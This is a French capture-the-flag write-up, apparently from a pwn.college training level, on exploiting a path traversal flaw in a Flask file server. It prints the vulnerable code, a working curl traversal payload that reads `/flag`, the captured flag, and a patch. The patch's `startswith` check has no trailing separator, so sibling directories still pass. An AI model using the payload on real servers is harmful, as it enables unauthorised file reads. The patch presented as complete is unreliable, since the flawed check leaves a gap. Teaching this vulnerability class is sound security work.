

## Description du Challenge
Ce niveau explore l'intersection entre la résolution de chemins sous Linux lorsqu'elle est effectuée de manière naïve, et les requêtes web inattendues d'un attaquant. 

Un serveur web simple sert les fichiers depuis `/challenge/files` via HTTP. L'objectif est de tromper le serveur pour qu'il nous donne le contenu du flag situé à la racine (`/flag`).

Lien interne lié : 1- Local File Inclusion( LFI )

---

## Analyse du Code Source
Le serveur utilise le framework Flask en Python :

```python
#!/usr/bin/exec-suid -- /usr/bin/python3 -I

import flask
import os

app = flask.Flask(__name__)

@app.route("/content", methods=["GET"])
@app.route("/content/<path:path>", methods=["GET"])
def challenge(path="index.html"):
    requested_path = app.root_path + "/files/" + path
    print(f"DEBUG: {requested_path=}")
    try:
        return open(requested_path).read()
    except PermissionError:
        flask.abort(403, requested_path)
    except FileNotFoundError:
        flask.abort(404, f"No {requested_path} from directory {os.getcwd()}")
    except Exception as e:
        flask.abort(500, requested_path + ":" + str(e))

app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```

### Vulnérabilité
L'application définit deux routes acceptant les requêtes `GET` :
```python
@app.route("/content", methods=["GET"])
@app.route("/content/<path:path>", methods=["GET"])
```

La seconde route utilise le convertisseur `<path:path>`. Par défaut, Flask bloque les slashes (`/`) dans les variables de route (renvoyant une erreur 404). Utiliser explicitement le type `:path` permet à la variable d'accepter des slashes sans déclencher d'erreur.

L'application traite ensuite l'entrée utilisateur ainsi :
```python
requested_path = app.root_path + "/files/" + path
# ...
return open(requested_path).read()
```

**Le problème :** L'application concatène directement la variable `path` (fournie par l'utilisateur) à l'aveugle, sans aucun nettoyage (*sanitization*), puis ouvre le fichier final via `open().read()`. 

---

## Exploitation (Path Traversal)
Puisque le chemin n'est pas vérifié, nous pouvons utiliser des séquences de remontée de répertoire (`../`) pour sortir du dossier `/files/` et atteindre la racine du système de fichiers afin de lire `/flag`.

### Payload
```bash
curl -v --path-as-is http://challenge.localhost:80/content/../../../flag
```

* **`--path-as-is`** : Cette option est indispensable. Sans elle, `curl` nettoie automatiquement l'URL avant de l'envoyer et supprime les `../`. Cet argument force `curl` à envoyer la chaîne de remontée brute au serveur.
* **`../../../`** : Permet de remonter de 3 niveaux depuis `/challenge/files/` pour atteindre la racine `/`.

### Résultat


```text
pwn.college{o8K__ZopUxGCng4zzUj_X18i8VG.QX3gzMzwSM5EjN3EzW}
```

---

## Comment Patcher la Vulnérabilité ?

Pour sécuriser l'application, il faut s'assurer que le chemin final résolu se trouve **strictement** à l'intérieur du répertoire autorisé (`/challenge/files`).

Voici la méthode recommandée en utilisant la bibliothèque standard `os.path` :

```python
# CODE CORRIGÉ
@app.route("/content/<path:path>", methods=["GET"])
def challenge(path="index.html"):
    # 1. Définir le répertoire de base absolu
    base_dir = os.path.abspath(app.root_path + "/files/")
    
    # 2. Résoudre le chemin demandé de manière absolue
    requested_path = os.path.abspath(os.path.join(base_dir, path))
    
    # 3. Vérifier que le chemin demandé commence bien par le chemin de base
    if not requested_path.startswith(base_dir):
        flask.abort(403, "Accès interdit : Tentative de Path Traversal détectée.")
        
    print(f"DEBUG: {requested_path=}")
    try:
        return open(requested_path).read()
    except PermissionError:
        flask.abort(403, requested_path)
    except FileNotFoundError:
        flask.abort(404, f"No {requested_path} from directory {os.getcwd()}")
```

### Pourquoi ce patch fonctionne :
* **`os.path.abspath()`** : Résout et supprime automatiquement toutes les séquences `../` ou `./`. Si l'utilisateur envoie `../../../flag`, `os.path.abspath` transformera le chemin en `/flag`.
* **`startswith(base_dir)`** : Compare les chaînes. Si le chemin résolu (`/flag`) ne commence pas par le préfixe autorisé (`/challenge/files/`), la requête est immédiatement rejetée avec une erreur `403`.

***3ch0 training***
